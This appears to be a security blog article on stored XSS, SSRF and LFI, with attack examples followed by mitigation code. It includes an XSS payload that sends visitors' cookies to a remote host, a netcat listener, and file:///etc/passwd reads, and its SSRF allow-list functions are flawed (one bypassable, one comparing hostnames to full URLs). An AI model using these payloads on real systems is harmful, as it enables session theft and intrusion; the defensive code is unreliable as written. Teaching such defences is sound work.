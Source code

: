 ```yaml
---
title: "Infiltrating the Digital Fortress: A Journey to the Heart of Web Vulnerabilities"
date: 2022-08-17 18:18:30
categories: [web vulnerabilities]
tags: [ssrf, lfi, xss, session hijacking]
---
```


Web security is a fortress constantly besieged by rapidly evolving digital threats. In this in-depth article, we explore the intricate world of web vulnerabilities through practical examples and code that illustrate how supposedly secure systems can be compromised. Let's unveil the strategies behind Cross-Site Scripting (XSS) Stored, Server-Side Request Forgery (SSRF), and Local File Inclusion (LFI) attacks.

## Dissecting a Stored XSS Attack: The Persistent Trap

A Stored XSS attack occurs when a malicious script is stored in a web application and executed every time the page is loaded. Consider a hypothetical example of script injection in a bug management system:

```html
<!-- XSS payload to capture cookies -->
<img src="undefined" onerror="fetch('http://192.168.15.10/capture?cookie='+document.cookie)">
```

This simple piece of code, when inserted through a vulnerable input, can capture session cookies from any user who views the reported bug, allowing access to protected sessions.

## Depths of SSRF: Exposing Internal Systems

SSRF allows an attacker to make the server perform requests to specific domains, often exposing internal services. Imagine a scenario where a development server attempts to access a PDF generation service but is tricked into connecting to a malicious host:

```bash
# Setting up a listener to capture requests
nc -nlvp 5555
```

```plaintext
# Requesting the server to access the malicious service
http://192.168.15.11:5555
```

By doing this, sensitive information such as HTTP headers and potentially authenticated data can be captured by the attacker.

## LFI Vulnerability: Espionage of Files

The LFI vulnerability is an entry point for spying on or executing local files on the server. Using this flaw, an attacker can view critical files or execute scripts indirectly:

```plaintext
# Accessing the system's password file
file:///etc/passwd

# Obtaining web server configuration information
file:///etc/nginx/nginx.conf

# Viewing configuration scripts
file:///home/user/setup.sh
```

This method of exploitation provides a detailed view of the server environment, enabling more targeted and sophisticated attacks.

# Exploiting SSRF to Access Internal FTP Servers

In a hypothetical web application with an SSRF vulnerability, an attacker can manipulate the application to access internal resources, like an FTP server. With revised credentials, the attacker constructs a new URL:

```plaintext
ftp://new_user:new_password@ftp.internal
```

In this URL:
- `new_user` is the revised username.
- `new_password` is the new password.
- `ftp.internal` is the hostname of the internal FTP server.

This approach allows the attacker to exploit the SSRF vulnerability to access the FTP server, posing serious security risks such as unauthorized access to sensitive files and potential data breaches.

## Mitigation Strategies
To safeguard against such threats:
- **Restrict URL Inputs**: Only allow URLs for safe and intended purposes by filtering out potentially harmful or unauthorized requests.
- **Enforce Secure Authentication Practices**: Ensure that internal services like FTP servers require secure authentication mechanisms and that credentials are not exposed or easily guessable.
- **Implement Network Segmentation**: Isolate sensitive internal services from public-facing systems to reduce the attack surface.


## Creativity in Code: Manipulation and Defense

The attacks described above can be dramatic, but the defenses are equally robust. For example, to mitigate XSS, developers can implement Content Security Policy (CSP):

```javascript
// Implementing CSP to prevent XSS
app.use(helmet.contentSecurityPolicy({
    directives: {
        defaultSrc: ["'self'"],
        scriptSrc: ["'self'", "https://apis.example.com"]
    }
}));
```

To combat SSRF, it's possible to restrict outgoing HTTP requests only to known and secure domains:

```python
# Function to validate URLs against a whitelist
def is_url_allowed(url):
    allowed_domains = ["https://service.example.com", "https://api.example.com"]
    return any(url.startswith(domain) for domain in allowed_domains)
```

In the realm of web security, understanding the nature of vulnerabilities is crucial, but developing robust countermeasures is even more vital. This detailed guide will focus on the mitigation strategies for the specific attack vectors discussed previously: Cross-Site Scripting (XSS) Stored, Server-Side Request Forgery (SSRF), and Local File Inclusion (LFI). We will explore how to shield web applications from such vulnerabilities through practical examples.

## Mitigating Stored XSS Attacks: Secure Input Handling

Stored XSS attacks involve malicious scripts being stored on a web server, which are then executed in users' browsers. To counter this, it is essential to sanitize and validate all user inputs.

**Example Implementation:**

1. **Sanitize Input**: Use library functions to encode or strip out potentially malicious characters.
2. **Content Security Policy (CSP)**: Implement CSP to restrict sources of executable scripts and protect against XSS by defining approved sources of content.

```javascript
// Example of implementing input sanitization in Node.js using the xss library
const xss = require('xss');

let sanitizedInput = xss(userInput);

// Example of setting a Content Security Policy in HTTP headers
app.use(helmet.contentSecurityPolicy({
    directives: {
        defaultSrc: ["'self'"],
        scriptSrc: ["'self'", "trusted-source.com"],
        blockAllMixedContent: [],
        upgradeInsecureRequests: [],
    }
}));
```

## Mitigating SSRF Attacks: Restricting Outbound Requests

SSRF attacks exploit a server to make requests to internal or external resources. Mitigating SSRF involves limiting the URL destinations that the server can request.

**Example Implementation:**

1. **Validate URLs**: Implement checks to ensure only allowed URLs are accessible.
2. **Segmentation and Firewalling**: Use network segmentation and firewall rules to restrict the server from accessing critical internal resources.

```python
# Example of URL validation to prevent SSRF in Python
def is_url_allowed(url):
    allowed_domains = ["https://api.trustedsource.com", "https://resources.safe.com"]
    parsed_url = urlparse(url)
    return parsed_url.hostname in allowed_domains

# Use this function to validate URLs before making requests
if is_url_allowed(request_url):
    response = requests.get(request_url)
else:
    raise ValueError("Invalid URL")
```

## Mitigating LFI Attacks: Secure File Handling

LFI attacks involve exploiting vulnerabilities to access files on a web server. Preventing LFI requires ensuring that file paths are securely handled and not directly exposed to user input.

**Example Implementation:**

1. **Whitelisting File Paths**: Only allow file accesses to a predefined list of safe paths.
2. **Input Validation**: Strictly validate any input that may influence file paths.

```python
# Example of securing file path access in Python
def get_safe_file_path(user_input):
    safe_paths = {'user_data': '/var/data/user_data.txt', 'config': '/var/config/site_config.txt'}
    if user_input in safe_paths:
        return safe_paths[user_input]
    else:
        raise ValueError("Requested file is not accessible.")

# Retrieve file content securely
file_path = get_safe_file_path(requested_file)
with open(file_path, 'r') as file:
    file_content = file.read()
```

## Conclusion: Proactive Defense Strategies

By implementing these mitigation strategies, developers can significantly enhance the security of their web applications. The key is proactive defense—anticipating potential attack vectors and countering them with thoughtful, well-implemented security practices.

